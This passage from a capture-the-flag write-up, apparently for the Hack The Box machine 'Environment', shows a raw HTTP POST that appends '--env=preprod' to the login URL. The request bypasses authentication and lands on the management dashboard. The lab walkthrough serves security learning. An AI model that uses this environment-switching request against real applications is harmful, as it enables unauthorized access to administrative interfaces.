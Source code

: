 ![Undefined Variable $Keep_loggedin](/assets/img/img_Environment/Environment-1746329062917.png)

We can see that it checks if the `env` is `preprod`. So let's try it.

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://environment.htb
Connection: keep-alive
Referer: http://environment.htb/login?error=Invalid%20credentials.
Cookie: XSRF-TOKEN=eyJpdiI6IktpamtpaG5oY0FOdlYzNnRqM3BPc3c9PSIsInZhbHVlIjoieklmUUhJS2VZbXppbkwycVhpekR1TXU3ZzdlWmJScmVZa1VHbkwvZmFtM3Ewc2NITktmT3F0TXBBOXhjN01CR3RNejlxWU1mSjdKOVJ1QzdIOWNLZWNCSlRuRzlZUnFyUUVOQWJ0UEpBQU4waFVoc2VDUVVQVFZuNTJMZ0RRcWkiLCJtYWMiOiIzMTVlMDU1N2JjMjVmYTA0MTQxY2JmYWM5OTk1MWVhOTU3NmYzYzgxYzdlMjM2NjA5ZGI2Mzc2MWI1MjJkOGE5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ii9Rdkg4QkEwNUFqMXlsTUF1czEzK1E9PSIsInZhbHVlIjoiMTVteHRBekxFelBGYjFwd21rdjF4TmptMEpxKzcxVHRZNWx5OEZpUDR6UldpZi9RSE5oTDBYNjM2Tm81Y2xQL3NueGhSc2RCS3pyTCt5M2t2ZC9HcHlWNmlaaEhWZ1IvSGlCM0Vsb0xWVklyU2F1OVpYT2pVQ0MzUHA2RUVEMFYiLCJtYWMiOiIyNjNkNDYxN2YwMWMyZTVmYTU4OGMwMjQ2NDFkMzg0NmFmOTVhNDI5Yzg3NTRkZjU4NWEyMjBiZWJmNzY4MDgwIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_token=NrzeUaIYwTANRvzxCd3Hp4bPCZkmA6hRMEfDC8Y3&email=w1ld%400xw1ld.github.io&password=Password&remember=True
```

Success! we're redirected to the management dashboard!